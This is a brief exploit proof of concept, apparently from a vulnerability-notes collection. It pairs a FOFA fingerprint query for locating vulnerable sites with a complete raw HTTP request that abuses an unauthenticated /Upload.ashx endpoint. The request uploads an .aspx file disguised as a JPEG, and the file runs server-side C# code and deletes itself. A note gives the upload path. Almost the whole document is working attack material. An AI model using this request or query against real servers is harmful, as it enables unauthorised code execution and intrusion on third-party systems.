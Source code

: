 fofa

body="AjaxMethods.asmx/GetCompanyItem"





```
POST /Upload.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySl8siBbmVicABvTX
Connection: close
 
------WebKitFormBoundarySl8siBbmVicABvTX
Content-Disposition: form-data; name="file"; filename="qwe.aspx"
Content-Type: image/jpeg
 
<%@Page Language="C#"%><%Response.Write("hello");System.IO.File.Delete(Request.PhysicalPath);%>
------WebKitFormBoundarySl8siBbmVicABvTX--
```

UploadFile/CustomerFile/返回的路径名
